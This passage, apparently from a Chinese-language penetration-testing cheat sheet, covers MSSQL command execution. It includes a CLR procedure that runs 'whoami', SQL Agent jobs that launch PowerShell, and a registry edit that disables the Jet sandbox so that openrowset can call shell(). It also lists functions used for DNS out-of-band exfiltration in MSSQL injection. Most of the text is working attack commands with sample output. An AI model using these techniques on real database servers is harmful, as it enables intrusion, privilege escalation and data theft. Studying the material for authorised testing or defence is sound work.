 ```sql
AS EXTERNAL NAME [CLRS].[StoredProcedures].[Runexec]
go
```
### 执行命令
```
exec dbo.runningexec 'whoami'`

Running command
nt service\mssql$sqlexpress
nt service\mssql$sqlexpress
```
## Agent Job代理作业
1. 目标服务器必须开启了MSSQL Server代理服务；
1. 服务器中当前运行的用户账号必须拥有足够的权限去创建并执行代理作业；
```sql
exec master.dbo.xp_servicecontrol 'start','SQLSERVERAGENT';//开启Agent Job
USE msdb; 
EXEC dbo.sp_add_job @job_name = N'test_powershell_job1' ;
EXEC sp_add_jobstep @job_name = N'test_powershell_job1', @step_name = N'test_powershell_name1', @subsystem = N'PowerShell', @command = N'powershell.exe calc.exe', @retry_attempts = 1, @retry_interval = 5 ;
EXEC dbo.sp_add_jobserver @job_name = N'test_powershell_job1'; 
EXEC dbo.sp_start_job N'test_powershell_job1';
```
## 沙盒执行命令

#### 利用条件

- 拥有DBA权限
- sqlserver服务权限为system
- 服务器拥有jet.oledb.4.0驱动

沙盒提权的原理就是jet.oledb（修改注册表）执行系统命令。数据库通过查询方式调用mdb文件，执行参数，绕过系统本身自己的执行命令，实现mdb文件执行命令

```sql
exec master..xp_regwrite 'HKEY_LOCAL_MACHINE','SOFTWARE\Microsoft\Jet\4.0\Engines','SandBoxMode','REG_DWORD',0/关闭沙盒

select * from openrowset('microsoft.jet.oledb.4.0',';database=c:\windows\system32\ias\dnary.mdb','select shell("whoami")')
```

# Some Tricks

[原文](https://swarm.ptsecurity.com/advanced-mssql-injection-tricks/)
Payloads Test On MSSQL 2019、2017、2016SP2。

## DNS带外
`fn_xe_file_target_read_file()`,`fn_get_audit_file()`, `fn_trace_gettable()`
